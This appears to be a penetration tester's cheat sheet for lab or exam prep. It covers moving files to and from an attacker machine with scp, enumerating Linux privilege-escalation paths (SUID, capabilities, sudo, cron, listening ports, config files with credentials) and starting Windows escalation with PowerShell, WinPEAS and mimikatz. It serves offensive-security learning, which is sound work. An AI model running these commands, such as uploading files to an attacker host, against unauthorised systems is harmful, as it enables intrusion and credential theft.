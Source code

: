# Start ssh service
service ssh start
# Download from attacker
scp kali@<ip>:<path to file> .
# Upload to attacker
scp <file> kali@<ip>:<path>
Linux Privilege Escalation
First of all, to recursively search the contents of files in a directory:
grep -Horn <text> <dir>
I use this so extensively idk why nobody talks about it. If you want to print out the whole line in each file instead of just the line number, remove the vowel (grep -Hrn).
SUID file/capability then GTFObins
find / -perm -u=s 2>/dev/null
find / -perm -g=s 2>/dev/null
getcap -r /
sudo then GTFObins
sudo -l
Processes → look for ones running as root or another user
# Some prettier alternatives to ps aux
ps fauxww
ps -ewwo pid,user,cmd --forest
Internal services to port forward
Pro tip: when you’re using Linux commands that require multiple flags, order them to make a fake word you can remember. “plunt” sticks in my head much better than “unltp” for example. grep -Horn above is another good example. Some people use goofy long commands, and I’m just like why…
# All connections
netstat -antup
# Listening connections
netstat -plunt
Common directories: check /, /home and nested user directories, and /opt. Use ls -lah to list hidden things
Cron jobs → look for anything unusual
cat /etc/crontab
ls /var/spool/cron
ls /etc/cron.*
# also repeat these replacing cron with anacron
If there’s a website running, always look for a config file with creds — this applies to Windows too (for wordpress it’s wp-config.php for example)
I don't really run privilege escalation scripts in Linux. You’ll rarely get more useful stuff than that.
Windows Privilege Escalation
Remember from a cmd session you can switch to powershell with
powershell -ep bypass
Note: -ep bypass is unnecessary unless you plan to run scripts.
Another thing nobody talks about that I think is absolutely instrumental is that 64-bit Windows either runs processes in 32-bit or 64-bit mode, and if your shell is running in 32-bit mode, the regular WinPEASany might not show everything. When I get a shell, I first check with [System.Environment]::Is64BitProcess in PowerShell, and if it says false you can switch to 64-bit by running C:\Windows\sysNative\cmd.exe. Alternatively, always run the 64-bit versions of any binary (eg. WinPEAS or mimikatz) when on a 64-bit Windows, and you should have no issue, though I find keeping 32 and 64 bit versions of binaries a little annoying when I can just have one that works for both.
whoami /priv